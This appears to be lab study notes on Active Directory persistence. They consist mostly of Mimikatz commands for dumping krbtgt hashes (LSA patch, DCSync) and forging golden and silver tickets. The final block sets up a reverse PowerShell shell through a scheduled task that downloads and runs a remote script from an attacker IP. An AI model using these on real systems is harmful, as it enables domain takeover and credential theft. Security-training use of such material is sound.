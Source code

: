 # Persistance

DC only validates when TGT's lifetime is more than 20 minutes. so we can even use deleted accounts\
KDC only checks the TGT

## Kerberos

## Golden Ticket

It has a very long lifetime like 10 years\
encrypted by the hash of krbtgt account\
First create a token on behalf of domain admin

## Execute mimikatz on DC as DA to get krbtgt hash

```
klist purge // to delete all tickets
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc
```

To use the DCSync feature for getting krbtgt hash execute the below&#x20;command with DA privileges:


```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC.

## On any machine to get a golden ticket

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"' 
```

## Silver Ticket

Has a very short lifetime and gives access to the services given by the service account\
encrypted by the hash of service account\
silver tickets can issued for services like HOST(schedule tasks), CIFS(Shares), RPCSS, WSMAN

here service account is a machine account for ex. DCORP-DC$ (1000)

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorpdc.dollarcorp.moneycorp.local /service:cifs /rc4:3c2392cdec22c2edb6e27381ee619849 /user:Administrator /ptt"' 
```

## Command Execution with Silver ticket

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorpdc.dollarcorp.moneycorp.local /service:HOST /rc4:3c2392cdec22c2edb6e27381ee619849 /user:Administrator /ptt"'
```

```
add following line at the end of Invoke-PowerShellTcp.ps1 script
Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.82 -Port 443

schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.82:1337/Invoke-PowerShellTcp1.ps1''')'"

python -m SimpleHTTPServer 1337
powercat -l -v -p 443

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"

```



